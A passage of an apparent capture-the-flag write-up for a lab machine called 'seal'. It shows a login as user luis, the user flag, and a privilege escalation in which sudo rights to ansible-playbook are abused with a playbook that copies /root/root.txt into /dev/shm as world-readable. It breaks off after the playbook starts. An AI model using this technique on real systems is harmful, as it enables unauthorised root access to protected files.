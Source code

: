   System load:           0.04
  Usage of /:            46.4% of 9.58GB
  Memory usage:          19%
  Swap usage:            0%
  Processes:             183
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.250
  IPv6 address for eth0: dead:beef::250:56ff:feb9:af64


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri May  7 07:00:18 2021 from 10.10.14.2
luis@seal:~$ 
```

Successfully obtained user permissions

```
luis@seal:~$ cat user.txt                                                   
e2f0
```

Successfully get the flag of user permission

### Privilege escalation

```
luis@seal:~$ sudo -l                                                                                
Matching Defaults entries for luis on seal:                                                                                                                                                                       
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                                                             

User luis may run the following commands on seal:                                                                                                                                                                 
    (ALL) NOPASSWD: /usr/bin/ansible-playbook 
```

Use sudo -l to check the sudo permissions and find that we can execute with root permissions ```ansible-playebook.```

Reference

https://docs.ansible.com/ansible/latest/user_guide/playbooks.html

Create a file named root.yml

```
- name: Ansible Copy Example Local to Remote
  hosts: localhost
  tasks:
    - name: copying file with playbook
      become: true 
      copy:
        src: /root/root.txt
        dest: /dev/shm
        owner: luis
        group: luis        
        mode: 0777
```

Use sudo /usr/bin/ansible-playbook to execute the root.yml file

```
luis@seal:/dev/shm$ sudo /usr/bin/ansible-playbook root.yml 
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'
